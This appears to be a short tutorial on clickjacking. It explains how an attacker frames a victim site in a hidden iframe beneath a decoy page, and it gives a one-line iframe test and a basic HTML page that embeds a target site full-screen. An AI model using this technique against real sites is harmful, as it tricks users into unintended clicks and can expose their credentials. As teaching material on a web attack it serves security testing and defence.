 **Clickjacking** is an interface-based attack in which a user is tricked into clicking on actionable content on a hidden website by clicking on some other content in a decoy website. 

So, the attacker creates their own webpage, which they place with very low opacity, and embeds the victim page using an iframe (HTML tag). This way, the victim user thinks they are accessing the legitimate page. The attacker can add different layers over the supposed login page to hijack credentials. To quickly test if this attack could be applied, one just needs to attempt to embed the victim page in an iframe.

```bash
<iframe id="target_website" src="https://vulnerable-website.com">
```
## How to construct a basic clickjacking attack
Clickjacking attacks use CSS to create and manipulate layers. The attacker incorporates the target website as an iframe layer overlaid on the decoy website. An example using the style tag and parameters is as follows:
```xml
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8" />
  <title>Simple Clickjacking</title>
  <style>
    iframe {
      border: none;
      width: 100vw;
      height: 100vh;
    }
  </style>
</head>
<body>
  <iframe src="http://target-site.com"></iframe>
</body>
</html>
```